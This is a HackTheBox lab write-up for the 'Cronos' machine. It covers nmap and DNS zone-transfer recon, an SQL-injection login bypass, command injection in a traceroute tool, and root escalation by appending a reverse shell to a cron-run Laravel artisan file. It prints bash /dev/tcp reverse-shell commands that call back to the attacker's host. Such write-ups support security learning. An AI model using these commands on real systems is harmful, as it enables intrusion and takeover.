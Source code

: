 # HackTheBox Cronos

> Author: Hades

> [*Scripting here*](https://github.com/leecybersec/scripting)

![](images/1.png)

## Information Gathering

### Openning Services

```
### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.13 | grep ^[0-9] | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//

[+] Openning ports: 22,53,80

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.13 -p22,53,80
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-05 09:12 +07
Nmap scan report for 10.10.10.13
Host is up (0.26s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.82 seconds
```

### DNS Server

At port 53, I used `nslooup` to enum ip 10.10.10.13 and got the name server `ns1.cronos.htb`

```
### DNS Enumeration (53) ############################
nslookup 10.10.10.13 10.10.10.13
13.10.10.10.in-addr.arpa        name = ns1.cronos.htb.
```

Add domain `ns1.cronos.htb` and `cronos.htb` to file `/etc/hosts` and `dig` enum.

```
┌──(Hades㉿10.10.14.5)-[2.0:21.4]~/scripting
└─$ dig axfr cronos.htb @10.10.10.13

; <<>> DiG 9.16.13-Debian <<>> axfr cronos.htb @10.10.10.13
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
<snip>
```

### Laravel Web App

There is defaul Apache page at port 80, but after add domain `cronos.htb` and go to it, I got a web application power by Laravel

![](images/2.png)

Add `admin.cronos.htb`, `www.cronos.htb` to file `/etc/hosts`


```
10.10.10.13 cronos.htb admin.cronos.htb www.cronos.htb ns1.cronos.htb
```

![](images/3.png)

## Foothold

### SQL Injection

At admin page, I try some payload SQLi to bypass authentication and I got it.

![](images/4.png)

### Command Injection

Admin page is Net Tool support `traceroute` server, but in the command box, I inject command `ls` and got the result.

![](images/5.png)

Inject command `bash -c 'sh -i >& /dev/tcp/10.10.14.5/443 0>&1'` and got the remote code execution.

```
┌──(Hades㉿10.10.14.5)-[2.9:23.4]~/walkthrough/hackthebox/cronos
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.13] 53806
sh: 0: can't access tty; job control turned off
$ id    
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Privilege Escalation

### Scheduled Tasks

Add file `/etc/crontab`, I know that the system running file `/var/www/laravel/artisan` with php command as root.

```
www-data@cronos:/var/www$ cat /etc/crontab
# /etc/crontab: system-wide crontab
<snip>
* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

Check permission file `/var/www/laravel/artisan`, This file owned by www-data, can easy to modify it.

```
www-data@cronos:/var/www$ ls -lh /var/www/laravel/artisan
-rwxr-xr-x 1 www-data www-data 1.7K Apr  9  2017 /var/www/laravel/artisan
```

At simple system command to execute shell code in `/var/www/laravel/artisan`.

```
echo system("bash -c 'sh -i >& /dev/tcp/10.10.14.5/443 0>&1'"); >> /var/www/laravel/artisan
```

Waiting 1 minute, I have root shell at my listener.

```
┌──(Hades㉿10.10.14.5)-[2.9:25.2]~/priescal/PEASS/linPEAS
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.13] 53762
sh: 0: can't access tty; job control turned off
# whoami
root
```